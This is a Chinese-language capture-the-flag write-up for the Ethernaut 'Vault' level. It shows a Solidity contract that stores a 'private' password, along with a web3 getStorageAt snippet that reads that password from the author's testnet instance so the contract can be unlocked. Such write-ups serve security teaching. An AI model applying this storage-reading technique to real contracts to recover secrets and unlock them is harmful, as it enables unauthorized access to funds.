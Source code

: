 ```yaml
---
layout: post
title: Vault
tags: [ethernaut]
---
```


# Vault
合约上任何数据都是公开的，即使是标记为private的变量
```solidity
pragma solidity ^0.4.18;

contract Vault {
  bool public locked;
  bytes32 private password;

  function Vault(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### 代码分析
需要调用合约的unlock(bytes32)方法来解锁合约，为此，必须要知道password。通过合约可以看出password在合约中是
一个private的storage变量，可以通过web3.eth.getStorageAt(address, index, callback)方法来获取到变量的具体值。

现以本人之前的instance为例：  
instance地址：0x9a9076bfdd4ed64598b3da08151010ae9f52d7fe
```js
var index = 0;
web3.eth.getStorageAt("0x9a9076bfdd4ed64598b3da08151010ae9f52d7fe", index, function(err, res){
    console.log(res);
})
```
index=0 : 0x0000000000000000000000000000000000000000000000000000000000000000  
index=1 : 0x412076657279207374726f6e67207365637265742070617373776f7264203a29  
其中index=1时，其值即为password。（注意web3的http地址使用ropsten测试网络rpc端口，可以在[infura](https://infura.io/)免费申请）

### 攻击方法
1. 调用合约unlock(password), password可以通过上述方法获得